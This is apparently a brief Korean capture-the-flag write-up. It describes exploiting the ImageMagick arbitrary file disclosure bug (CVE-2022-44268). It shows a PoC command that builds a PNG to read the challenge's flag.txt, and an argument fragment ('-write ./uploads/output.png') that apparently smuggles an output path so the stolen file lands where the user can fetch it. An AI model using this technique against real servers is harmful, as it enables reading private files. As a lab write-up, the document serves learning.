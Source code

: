 ## PoC
- ImageMagick Arbitrary File Disclosure (CVE-2022-44268)
- 해당 취약점의 poc코드를 사용하여 익스플로잇 진행
- ```Dockerfile```에서 ```flag.txt```의 경로가 ```/home/node/app/flag.txt``` 라는것을 알 수 있다.

```
 ./poc.py generate -o poc.png -r /home/node/app/flag.txt
```
- ```flag.txt```를 읽는 poc.png 생성
![image](https://github.com/user-attachments/assets/50b3ed17-d5f7-4584-ab70-5ace8ef66382)
```red -write ./uploads/output.png```
- 사용자가 접근할수 있는 경로에 읽은 플래그를 저장한다.

![image](https://github.com/user-attachments/assets/16c55e4b-21a9-4b32-a4c3-7d441f2f5862)
- 플래그가 성공적으로 저장된것을 알 수 있다.

![image](https://github.com/user-attachments/assets/e20c2784-a2c5-4d23-93e6-2c3e8929c32c)
- flag획득

